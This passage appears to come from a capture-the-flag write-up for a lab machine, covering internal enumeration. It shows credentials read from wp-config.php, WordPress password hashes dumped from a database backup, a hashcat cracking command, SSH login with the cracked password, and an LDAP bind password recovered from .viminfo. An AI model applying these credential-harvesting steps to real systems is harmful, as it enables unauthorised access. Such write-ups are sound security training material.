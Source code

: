 ## Internal Enumeration


We find some credentials in wp-config.php:

**wp:fiFtDDV9LYe8Ti**

Looking around the database doesn't show us anything interesting. However, running lse.sh shows us that a backup of the database exists:

```
-rw-r--r-- 1 root root 1190388 Apr 24 06:39 /opt/wordpress/backup-13-04-2020.sql
```

If we pull this to our local machine, we can load it into mysql:

```
mysql -u****** -p******* --database=wp < backup.sql

use wp
select * from wp_users;

+----+-------------+------------------------------------+---------------+------------------+------------------+---------------------+---------------------+-------------+---------------+
| ID | user_login  | user_pass                          | user_nicename | user_email       | user_url         | user_registered     | user_activation_key | user_status | display_name  |
+----+-------------+------------------------------------+---------------+------------------+------------------+---------------------+---------------------+-------------+---------------+
|  1 | admin       | $P$BIRXVj/ZG0YRiBH8gnRy0chBx67WuK/ | admin         | admin@travel.htb | http://localhost | 2020-04-13 13:19:01 |                     |           0 | admin         |
|  2 | lynik-admin | $P$B/wzJzd3pj/n7oTe2GGpi5HcIl4ppc. | lynik-admin   | lynik@travel.htb |                  | 2020-04-13 13:36:18 |                     |           0 | Lynik Schmidt |
+----+-------------+------------------------------------+---------------+------------------+------------------+---------------------+---------------------+-------------+---------------+
```

We can save that new hash to a file called hashes.txt to crack with hashcat:

```
hashcat -m 400 hashes.txt /usr/share/wordlists/rockyou.txt --force 
```

It decodes to "1stepcloser".

Trying to ssh in with lynik gives us a "public key denied" error, but we can ssh in with the username lynik-admin!

**lynik-admin:1stepcloser**

## Internal Host Enumeration

Looking in lynik-admin's home folder, we see two interesting files: .viminfo and .ldaprc:

.viminfo:
```
...
# Registers:
""1     LINE    0
        BINDPW Theroadlesstraveled
|3,1,1,1,1,0,1587670528,"BINDPW Theroadlesstraveled"
...
```

